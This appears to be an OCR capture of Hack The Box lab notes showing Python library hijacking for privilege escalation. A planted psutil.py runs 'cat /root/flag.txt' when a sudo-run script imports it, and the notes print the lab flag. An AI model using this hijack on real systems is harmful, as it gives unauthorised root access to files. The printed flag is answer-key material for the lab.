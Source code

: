 
vi /tmp/psutil.py

#!/usr/bin/env python3

import os

def virtual_memory():
    os.system('cat /root/flag.txt')

sudo PYTHONPATH=/home/htb-student/ /usr/bin/python3 /home/htb-student/mem_status.py
sudo: sorry, you are not allowed to set the following environment variables: PYTHONPATH

sudo /usr/bin/python3 /home/htb-student/mem_status.py

HTB{3xpl0i7iNG_Py7h0n_lI8R4ry_HIjiNX}
Traceback (most recent call last):
  File "/home/htb-student/mem_status.py", line 4, in <module>
    available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total
AttributeError: 'NoneType' object has no attribute 'available'
